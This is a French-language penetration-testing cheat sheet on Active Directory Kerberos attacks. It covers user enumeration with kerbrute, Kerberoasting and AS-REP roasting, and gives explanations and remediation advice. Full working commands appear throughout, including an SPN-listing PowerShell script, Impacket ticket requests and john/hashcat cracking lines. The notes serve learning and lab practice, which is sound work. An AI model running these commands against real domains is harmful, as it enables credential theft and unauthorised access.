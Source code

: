 # Enumeration 
## User Enumeration 
***User enumeration through Kerberos port 88:***  
`./kerbrute_linux_amd64 userenum --dc 10.10.11.152 -d <domain> /usr/share/wordlists/SecLists/Usernames/xato-net-10-million-usernames.txt`

# Kerberoasting  

## Outils :  
- ListusersSPNs.ps1  
- Impacket GetUserSPNs.py  
  
## Explications :  
Les comptes de service ont un SPN (Service Principal Name), exemple : www/WEB-SERVER-01.adsec.local  
SPN = combinaison du service + de la machine hébergeant le service  
Comptes de service ont généralement un mdp robuste (20-30 caractères)  
Il est possible d'effectuer des demandes de TGS en indiquant des SPN arbitraires  
Un utilisateur de l’AD peut demander un TGS pour n’importe quel service auprès du KDC  
-> Obtention d'un TGS chiffré avec le mdp du compte possédant le SPN  
-> Bruteforce -> si le TGS est déchiffrable, le mot de passe est trouvé  
  
## Remédiation :  
Pas de SPN sur les comptes utilisateurs (ces derniers ont souvent des comptes à mot de passe suivant la politique AD pouvant être bruteforcés), ou alors si VRAIMENT nécessaire, utiliser la fonctionnalité “Managed Service Accounts” (MSA) de Microsoft qui permet de faire en sorte que le mot de passe du compte soit robuste et changé régulièrement et automatiquement  
  
## Exécution  
`ListusersSPNs.ps1`, listing des utilisateurs possédant un SPN :  
<code>  
$search = New-Object DirectoryServices.DirectorySearcher([ADSI]"")  
$search.filter = "(&(objectCategory=person)(objectClass=user)(servicePrincipalName=*))"  
$results = $search.Findall()  
foreach($result in $results)  
  {
      $userEntry = $result.GetDirectoryEntry()
      Write-host "User : " $userEntry.name "(" $userEntry.distinguishedName ")"
      Write-host "SPNs"
      foreach($SPN in $userEntry.servicePrincipalName)
          {
              $SPN
          }
      Write-host ""
   }    
</code>
  
À partir de l’adresse <https://beta.hackndo.com/kerberoasting/>
  
  
***Récupération des TGS :***  
  
`
C:\Users\Leperche\Desktop\no_scan\impacket-master\examples>python GetUserSPNs.py -request -dc-ip <dc_ip> <domain>/<domain_username>
`
  
***Cracking des TGS :***    
  
`
john --format=krb5tgs --wordlist=/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100000.txt TGS_to_crack.txt
`
  
***Affichage des TGS crackés :***  
  
`cat ~/.john/john.pot`
  
# AS_REP Roasting  
  
  
https://beta.hackndo.com/kerberos-asrep-roasting/
  
  
## Outils :  
·       Rubeus
·       Impacket : GetNPUsers.py
  
## Explication :  
Lors d’une demande de TGT, l’utilisateur doit, par défaut, s’authentifier auprès du KDC pour que celui-ci lui réponde. Il arrive que cette authentification préalable ne soit pas demandée pour certains comptes, permettant à un attaquant d’abuser de cette configuration.
Lorsque nous avons parlé du fonctionnement de Kerberos, il a été mis en évidence que dans le premier échange (KRB_AS_REQ - KRB_AS_REP), le client doit d’abord s’authentifier auprès du KDC avant d’obtenir un TGT. Une partie de la réponse du KDC étant chiffrée avec le secret du compte client (la clé de session), il est important que cette information ne soit pas accessible sans authentification. Dans le cas échéant n’importe qui pourrait demander un TGT pour un compte donné, et tenter de décrypter la partie chiffrée de la réponse KRB_AS_REP pour retrouver le mot de passe de l’utilisateur ciblé.
  

TODO IMG


## Remédiation :  
Ne pas activer “Do not require Kerberos preauthentication”
  
  
À partir de l’adresse <https://beta.hackndo.com/kerberos-asrep-roasting/>
  
## Exécution  
***Récupération des TGT pour les utilisateurs pour lesquels la preauth Kerberos est désactivée :***  
<br>
`PS > python C:\GetNPUsers.py spookysec.local/ -no-pass -usersfile .\userlist2.txt -dc-ip <dc_ip> -outputfile .\ASREP_Roastable_users.txt`
  
***Puis cracking :***  
`PS> john --wordlist=$wordlist ASREP_Roastable_users.txt`
  
(ou : `PS >  .\hashcat.exe --force -m 18200 -a 0 -o "../hash_res.txt" "../svc-admin.txt"`)
  
